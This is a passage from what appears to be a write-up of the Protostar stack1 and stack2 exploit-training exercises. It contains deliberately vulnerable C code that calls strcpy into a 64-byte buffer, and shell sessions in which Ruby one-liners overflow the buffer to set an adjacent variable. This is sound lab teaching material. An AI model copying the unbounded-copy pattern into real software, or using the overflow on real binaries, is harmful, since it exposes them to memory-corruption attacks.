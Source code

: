 int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
{% endcodeblock %}

{% codeblock %}
user@protostar:/opt/protostar/bin$ ./stack1 $(ruby -e 'print "X" * 64')
Try again, you got 0x00000000

user@protostar:/opt/protostar/bin$ ./stack1 $(ruby -e 'print "X" * 64 + [0x41414141].pack("V") ')
Try again, you got 0x41414141

user@protostar:/opt/protostar/bin$ ./stack1 $(ruby -e 'print "X" * 64 + [0x61626364].pack("V") ')
you have correctly got the variable to the right value
{% endcodeblock %}

## Protostar Stack2
{% codeblock lang:c stack2.c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
